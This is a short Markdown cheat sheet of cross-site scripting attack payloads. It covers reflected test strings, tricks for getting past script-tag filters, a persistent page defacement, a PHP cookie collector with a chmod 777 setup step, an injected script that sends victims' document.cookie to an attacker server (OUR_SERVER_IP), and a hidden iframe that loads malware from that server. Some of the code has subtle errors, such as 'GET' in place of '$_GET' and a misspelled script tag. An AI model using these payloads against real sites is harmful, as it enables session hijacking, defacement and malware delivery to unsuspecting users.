 # XSS tricks
## Reflected
### Simple test
This is a simple test to see what happens, this is not a prove that the field is vuln to xss.

`<plaintext>`
### Simple XSS test

`<script>alert('Found')</script>`

`"><script>alert(Found)</script>">`

`<script>alert(String.fromCharCode(88,83,83))</script>`

### Bypass filter of tag script

`"  onload="alert(String.fromCharCode(88,83,83))`

`" onload="alert('XSS')`

bla is not a valid image, so this cause an error

`<img src='bla' onerror=alert("XSS")>`

## Persistent

`>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";`


### PHP collector

`> cookie.txt`
`chmod 777 cookie.txt`

edit a php page like colector.php as follow:

```php
<?php
	$cookie=GET['cookie'];
	$useragent=$_SERVER['HTTP_USER_AGENT'];
	$file=fopen('cookie.txt', 'a');
	fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n");
	fclose($file);
?>
```

Script to put in page:

`<scritp>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>`

### Malware Donwloader via XSS

<iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>

